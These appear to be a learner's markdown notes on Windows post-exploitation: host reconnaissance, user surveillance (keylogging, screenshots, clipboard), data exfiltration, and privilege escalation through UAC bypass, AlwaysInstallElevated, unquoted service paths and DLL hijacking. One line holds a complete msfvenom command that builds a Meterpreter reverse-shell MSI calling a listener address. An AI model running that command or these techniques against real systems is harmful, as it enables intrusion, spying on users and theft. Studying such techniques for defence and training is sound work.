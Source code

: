 
### Host Situational Awareness


Possible tools/ways to check to collection infos (Windows): 

- Registry/file system: Powershell/.Net version
- event log: example when does user log in (so we know when we can usually attack)
- Powershell: logging activated? (if not harder to detect)
- WMI
- User mining: 
    - keylogging (see what user is currently typing)
    - screenshots
    - observe clipboard
- Data Mining
    - Home folders
    - file shares
    - websites (Wiki, JRA etc.)
    - etc.
    - Tools
        - snaffler: find stuf in Windows/AD environment (all computers etc.)
        - etc.
    - Data Exfiltration
        - via http etc.
        - via CloudShares (OneDrive etc.)
    - 
- etc.



### Privilege Escalation
Usually, at first malware initially runs in the context of a normal user.

**General**

- Path variables are a bit dangerous. OS will try to find file in a certain order (first is always local older). If attacker manages to set it's own path in a path variable, possible the "wrong" binary is executed (by another user).
- a lot of vulnerabilities are similar accross operating systems

**Windows**
- UAC Bypass
    - UAC as in short: by default: process is started without admin privileges. If to run as admin: popup will appear. So user has to actively click and depending on configuration even enter pw. There are some ways to bypass UAC  
- Some misconfigurations
    - AlwaysInstallElevated: AD Group policies which set to true.. makes the msi's run as admin. (even if user is not yet admin) 
        - Tool meterpreter can generate msi that creates a shell: "msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 –f msi > shell.msi"  (other tools like PowerUp can do that too)
    - Unattended Installation files (sometimes pw can be found in them)
    - Service binaries that one has write access and will be executed as admin
        - or generally any file that is executed with another user. (would be privilege escalation to another user)
    - Hijack Execution flow
        - if dll use is not immediatly found, windows will search different places to find the place. If attacker has write privileges in one of these places, it is possible to place "infected" dlls there. 
            - Vulnerability: "Unquoted Service Paths" when path/name has whitespaces so windows will look in multiple places
            - path variables (mentioned above)
    - DDL side loading
        - similar to dll hijacking.. smuggle in a malicious dll when windows Side-by-Side manifests are not specific enough about which dll to be loaded
    - etc.
    - Tools: 
        - PowerSploit: > collection of powershell scripts
        - SharpUp > various PowerUp functionality